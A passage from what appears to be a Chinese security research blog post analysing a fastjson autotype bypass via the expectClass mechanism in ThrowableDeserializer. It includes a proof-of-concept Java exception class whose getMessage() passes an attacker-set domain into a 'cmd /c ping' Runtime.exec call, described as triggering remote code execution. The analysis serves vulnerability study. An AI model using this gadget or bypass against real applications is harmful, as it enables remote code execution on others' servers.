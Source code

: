 可以看到主要有如下种情况可以直接返回class

TypeUtils.mappings mappings缓存1.2.47中就被绕过了一次autotype。而这次绕过是在于`exceptClass`期望类这个功能。

期望类的功能主要是实现/继承了期望类的class能被反序列化出来（并且不受autotype影响），寻找checkAutoType方法的调用，要求exceptClass不为空。

![image.png](https://y4er.com/img/uploads/20200616112778.png)

只有两个类`JavaBeanDeserializer`、`ThrowableDeserializer`中调用了checkAutoType并且exceptClass不为空。

在`com/alibaba/fastjson/parser/ParserConfig.java:826`中对一些基本的类型设置了对应的反序列化实例deserializer
![image.png](https://y4er.com/img/uploads/20200616112730.png)
ThrowableDeserializer是Throwable用来反序列化异常类的，当没有命中之前程序给定的类型时会进入createJavaBeanDeserializer()，其实就是JavaBeanDeserializer。

先看ThrowableDeserializer中
![image.png](https://y4er.com/img/uploads/20200616111164.png)

根据第二个`@type`获取类，并且传入指定期望类进行加载。因此可以反序列化继承Throwable的异常类，借助setter、getter等方法的自动调用，来挖掘gadget。浅蓝师傅给了一个gadget

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecException extends Exception {

    private String domain;

    public ExecException() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            return e.getMessage();
        }

        return super.getMessage();
    }
}
```
提交json触发rce
